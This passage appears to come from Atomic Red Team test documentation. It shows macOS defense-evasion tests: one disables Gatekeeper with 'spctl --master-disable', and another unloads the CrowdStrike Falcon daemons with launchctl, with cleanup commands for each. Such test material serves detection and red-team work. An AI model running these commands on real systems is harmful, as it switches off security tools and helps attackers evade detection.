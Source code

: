 **Supported Platforms:** macOS


**auto_generated_guid:** 2a821573-fb3f-4e71-92c3-daac7432f053






#### Attack Commands: Run with `sh`!  Elevation Required (e.g. root or admin) 


```sh
sudo spctl --master-disable
```

#### Cleanup Commands:
```sh
sudo spctl --master-enable
```





<br/>
<br/>

## Atomic Test #9 - Stop and unload Crowdstrike Falcon on macOS
Stop and unload Crowdstrike Falcon daemons falcond and userdaemon on macOS

**Supported Platforms:** macOS


**auto_generated_guid:** b3e7510c-2d4c-4249-a33f-591a2bc83eef





#### Inputs:
| Name | Description | Type | Default Value |
|------|-------------|------|---------------|
| falcond_plist | The path of the Crowdstrike Falcon plist file | path | /Library/LaunchDaemons/com.crowdstrike.falcond.plist|
| userdaemon_plist | The path of the Crowdstrike Userdaemon plist file | path | /Library/LaunchDaemons/com.crowdstrike.userdaemon.plist|


#### Attack Commands: Run with `sh`!  Elevation Required (e.g. root or admin) 


```sh
sudo launchctl unload #{falcond_plist}
sudo launchctl unload #{userdaemon_plist}
```

#### Cleanup Commands:
```sh
sudo launchctl load -w #{falcond_plist}
sudo launchctl load -w #{userdaemon_plist}
```
